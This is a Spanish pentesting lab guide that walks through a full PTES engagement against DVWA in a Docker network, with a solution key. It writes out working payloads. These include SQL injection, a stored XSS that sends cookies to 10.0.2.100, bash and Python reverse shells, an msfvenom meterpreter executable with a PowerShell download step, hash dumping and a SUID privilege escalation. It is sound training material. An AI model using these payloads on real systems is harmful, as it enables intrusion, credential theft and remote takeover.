


# 🔓 Lab pentest-01: Pentesting — Ciclo Completo PTES


::: tip 🧪 Lab Interactivo Disponible
**¿Quieres practicar esto en tu navegador?** Tenemos una versión interactiva con terminal simulado.

👉 **[Abrir Lab Interactivo](/CyberDefense-Pro-Network/labs-interactive/lab-pentest-01.html)** — Sin Docker, sin configuración. Solo abre y practica.
:::


> Ejecuta un pentest completo siguiendo la metodología PTES: desde el reconocimiento hasta la obtención de shell y documentación.

## 📊 Diagrama del Escenario



## 🎯 Objetivos de Aprendizaje

Al completar este lab podrás:

- [ ] Ejecutar reconocimiento activo completo con Nmap
- [ ] Identificar vulnerabilidades explotables
- [ ] Explotar una aplicación web vulnerable (DVWA)
- [ ] Obtener reverse shells en Linux y Windows
- [ ] Estabilizar shells y escalar privilegios básicamente
- [ ] Documentar el pentest en un reporte profesional

## ⏱️ Información del Lab

| Campo | Valor |
|-------|-------|
| **Dificultad** | 🟡 Intermedio |
| **Tiempo estimado** | 90 minutos |
| **XP en juego** | 400 puntos |
| **Herramientas** | Nmap, Metasploit, Netcat, curl, sqlmap |
| **Flags** | 8 |

## 🚀 Inicio Rápido

```bash
# Levantar el entorno
cd labs/intermedio/pentest-01
docker compose up -d

# Verificar servicios
docker compose ps

# Obtener shell en Kali (con Metasploit)
docker compose exec kali bash
```

## 📋 Ejercicios

### Ejercicio 1: Reconocimiento Completo (40 XP)

**Objetivo:** Mapear la red objetivo y enumerar servicios.

```bash
# Ping sweep
nmap -sn 10.0.2.0/24

# Escaneo completo de puertos y servicios
nmap -sV -sC -O -oN pentest_scan.txt 10.0.2.0/24

# Enumeración HTTP
gobuster dir -u http://10.0.2.10 -w /usr/share/wordlists/dirb/common.txt
```

**Preguntas:**
1. ¿Cuántos hosts activos? `[___]`
2. ¿Qué servicios corren en cada host? `[___]`
3. ¿Qué vulnerabilidades potenciales identificaste? `[___]`

**Flag:** `[___]`

---

### Ejercicio 2: Explotación Web — SQL Injection (50 XP)

**Objetivo:** Explotar SQL Injection en DVWA para extraer datos.

```bash
# DVWA login (usuario: admin, contraseña: password)
curl -c cookies.txt -d "username=admin&password=password" http://10.0.2.10/login.php

# SQL Injection en DVWA
# Cambiar security level a 'low'
curl -b cookies.txt "http://10.0.2.10/vulnerabilities/sqli/?id=1'&Submit=Submit"

# Extraer usuarios
curl -b cookies.txt "http://10.0.2.10/vulnerabilities/sqli/?id=1'+UNION+SELECT+user,password+FROM+users--&Submit=Submit"

# Con sqlmap
sqlmap -u "http://10.0.2.10/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="PHPSESSID=xxx; security=low" --dbs --batch
```

**Preguntas:**
1. ¿Cuántas bases de datos encontraste? `[___]`
2. ¿Qué usuarios hay en la tabla users? `[___]`
3. ¿Cuál es el hash de la contraseña del admin? `[___]`

**Flag:** `[___]`

---

### Ejercicio 3: Explotación Web — XSS (40 XP)

**Objetivo:** Ejecutar Cross-Site Scripting en DVWA.

```bash
# Reflected XSS
# Navegar a: http://10.0.2.10/vulnerabilities/xss_r/?name=<script>alert('XSS')</script>

# Stored XSS - insertar en el campo de nombre
curl -b cookies.txt "http://10.0.2.10/vulnerabilities/xss_s/" -d "txtName=<script>document.location='http://10.0.2.100/steal?c='+document.cookie</script>&mtxMessage=test&btnSign=Sign+Guestbook"

# Robo de cookies
nc -lvnp 8080  # En otro terminal para recibir la cookie
```

**Preguntas:**
1. ¿Qué tipo de XSS funciona? `[___]`
2. ¿Pudiste robar una cookie? `[Sí/No]`
3. ¿Qué payload usaste? `[___]`

**Flag:** `[___]`

---

### Ejercicio 4: Reverse Shell — Linux (60 XP)

**Objetivo:** Obtener una reverse shell en el servidor Linux.

```bash
# En Kali - preparar listener
nc -lvnp 4444

# En DVWA - Command Injection
# Usar: http://10.0.2.10/vulnerabilities/exec/
# Input: 127.0.0.1; bash -i >& /dev/tcp/10.0.2.100/4444 0>&1

# Alternativa con Python
# Input: 127.0.0.1; python -c 'import socket,subprocess,os;s=socket.socket();s.connect(("10.0.2.100",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/sh","-i"])'

# Estabilizar shell
python3 -c 'import pty; pty.spawn("/bin/bash")'
# Ctrl+Z
stty raw -echo
fg
export TERM=xterm
```

**Preguntas:**
1. ¿Qué técnica de command injection usaste? `[___]`
2. ¿En qué usuario obtuviste la shell? `[___]`
3. ¿Qué herramienta usaste para estabilizar? `[___]`

**Flag:** `[___]`

---

### Ejercicio 5: Escalada de Privilegios Linux (60 XP)

**Objetivo:** Escalar de usuario normal a root.

```bash
# Enumeración de privesc
find / -perm -4000 -type f 2>/dev/null
cat /etc/crontab
sudo -l

# Si encuentra SUID vulnerable
./vulnerable_suid

# Si hay cron job explotable
echo 'bash -i >& /dev/tcp/10.0.2.100/4445 0>&1' > /tmp/privesc.sh
chmod +x /tmp/privesc.sh

# Verificar si eres root
whoami
id
cat /root/flag.txt
```

**Preguntas:**
1. ¿Qué vector de privesc encontraste? `[___]`
2. ¿Qué usuario final obtuviste? `[___]`
3. ¿Qué herramienta de enumeración fue más útil? `[___]`

**Flag:** `[___]`

---

### Ejercicio 6: Reverse Shell — Windows (50 XP)

**Objetivo:** Obtener una reverse shell en el target Windows.

```bash
# Preparar payload con msfvenom
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.0.2.100 LPORT=4445 -f exe -o shell.exe

# Servir el payload
python3 -m http.server 8081

# En Metasploit
msfconsole -q
use exploit/multi/handler
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST 10.0.2.100
set LPORT 4445
exploit

# Descargar desde Windows target
# powershell -c "Invoke-WebRequest http://10.0.2.100:8081/shell.exe -OutFile C:\temp\shell.exe"
# C:\temp\shell.exe
```

**Flag:** `[___]`

---

### Ejercicio 7: Post-Explotación (50 XP)

**Objetivo:** Recopilar información del sistema comprometido.

```bash
# En Meterpreter
sysinfo
getuid
hashdump
enum_applications

# O en shell directa
whoami /all
ipconfig /all
net user
net localgroup administrators
systeminfo
```

**Preguntas:**
1. ¿Qué información del sistema obtuviste? `[___]`
2. ¿Pudiste extraer hashes? `[Sí/No]`
3. ¿Qué usuarios administradores hay? `[___]`

**Flag:** `[___]`

---

### Ejercicio 8: Reporte de Pentest (50 XP)

**Objetivo:** Documentar profesionalmente todo el pentest.

Crea `pentest_report.md`:

```markdown
# Informe de Pentest — CorpNet Red Team

## Resumen Ejecutivo
- [Alcance, hallazgos principales, riesgo general]

## Metodología
- [PTES phases followed]

## Hallazgos

### Hallazgo 1: SQL Injection (CRÍTICO)
- Severidad: 9.8
- CVSS: AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H
- Descripción: [___]
- Evidencia: [___]
- Remediación: [___]

### Hallazgo 2: XSS Stored (ALTO)
- [Completar]

### Hallazgo 3: Command Injection (CRÍTICO)
- [Completar]

### Hallazgo 4: Weak Privesc (ALTO)
- [Completar]

## Recomendaciones
- [___]

## Timeline
- [Fechas del engagement]
```

**Flag:** `[___]`

## 🔍 Flujo PTES



## 🏁 Validación

```bash
./scripts/validate.sh
```

## 📝 Criterios de Éxito

| Ejercicio | Criterio | Puntos | Estado |
|-----------|----------|--------|--------|
| 1 | Reconocimiento completo | 40 | ⬜ |
| 2 | SQL Injection explotada | 50 | ⬜ |
| 3 | XSS ejecutado | 40 | ⬜ |
| 4 | Reverse shell Linux | 60 | ⬜ |
| 5 | Privesc exitoso | 60 | ⬜ |
| 6 | Reverse shell Windows | 50 | ⬜ |
| 7 | Post-explotación | 50 | ⬜ |
| 8 | Reporte profesional | 50 | ⬜ |
| **Total** | | **400** | ⬜ |

## 🚨 Solución (Solo después de intentar)

<details>
<summary>🔓 Click para ver la solución completa</summary>

### SQL Injection
```
' UNION SELECT user,password FROM users--
# Admin: 5f4dcc3b5aa765d61d8327deb882cf99 (password)
```

### Command Injection
```
127.0.0.1; bash -i >& /dev/tcp/10.0.2.100/4444 0>&1
```

### Privesc
```
find / -perm -4000 -type f
# /usr/bin/python3 → python3 -c 'import os;os.execl("/bin/sh","sh","-p")'
```

</details>

---

*Lab creado para CyberDefense Labs — Nivel Intermedio*
